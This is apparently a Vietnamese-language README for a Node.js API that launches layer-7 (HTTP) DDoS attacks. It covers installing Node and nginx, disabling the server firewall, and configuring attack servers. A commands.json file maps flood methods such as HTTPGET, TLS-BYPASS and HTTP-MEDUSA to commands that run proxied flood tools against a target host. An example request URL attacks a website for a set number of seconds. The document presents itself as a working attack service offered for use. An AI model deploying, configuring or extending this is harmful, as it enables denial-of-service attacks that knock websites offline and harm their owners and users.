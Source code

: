 <h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h2>Cài đặt:</h2>

<h3>cài đặt nodejs</h3>

***ubuntu*** 
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash
source ~/.bashrc
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

***centos***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

<h3>cài đặt nginx</h3>

<h3>tắt tường lửa</h3>

***centos***
```sh
sudo service iptables stop
sudo chkconfig iptables off
sudo systemctl stop firewalld
sudo systemctl disable firewalld
```

<h2>Setup:</h2>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "TLS-BYPASS": "screen -dmS attack_${attack_id} node TLS-BYPASS ${host} ${time} 30 proxies.txt 30",
    "HTTP-MEDUSA": "screen -dmS attack_${attack_id} ./HTTP-MEDUSA ${host} ${time} 30 30",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; // Cổng API
const socket_token = "SOCKET_TOKEN"; // Mã thông báo TCP Socket, sử dụng số/chữ cái ngẫu nhiên
const api_key = "API_KEY"; // Khóa API của bạn
const domain_lock = false; // khóa api để chỉ được sử dụng từ một tên miền cụ thể
const api_domain = 'example.com'; // miền API của bạn (nếu domain_lock được đặt thành true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 8888;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

#### Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API

```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/api.js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/servers.json
```
```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/socket.js
```

<h3> Khởi động</h3>

```js
screen -S api -dm node api.js
```
```js
screen -S socket -dm node socket.js
```

<h3> Proxy đảo ngược</h3>

***Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:***

```nano /etc/nginx/nginx_conf```
```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:8888/api/attack;
    }
}
```

***Thay thế*** `'http://backend:8888/api/attack'` ***bằng IP máy chủ API của bạn***

<h2> Sử dụng API</h2>

***Gửi yêu cầu tới API bằng các trường bắt buộc***

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=HTTPGET&server=1`

***Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API sử dụng*** `&method=stop`

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=stop&server=1`
